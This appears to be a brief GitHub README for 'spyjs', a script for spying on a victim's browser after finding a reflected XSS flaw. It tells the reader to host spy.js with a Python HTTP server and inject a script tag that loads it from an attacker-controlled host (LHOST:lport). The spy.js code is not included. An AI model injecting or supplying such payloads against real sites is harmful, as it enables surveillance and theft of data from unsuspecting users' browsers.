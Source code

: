 # spyjs
Simple js sample to spy on browser, when reflacted xss found


Start server to serve js
```sh
python3 -m http.server 8080
```

Do 
```js
 <script src="http://LHOST:lport/spy.js"></script>
```




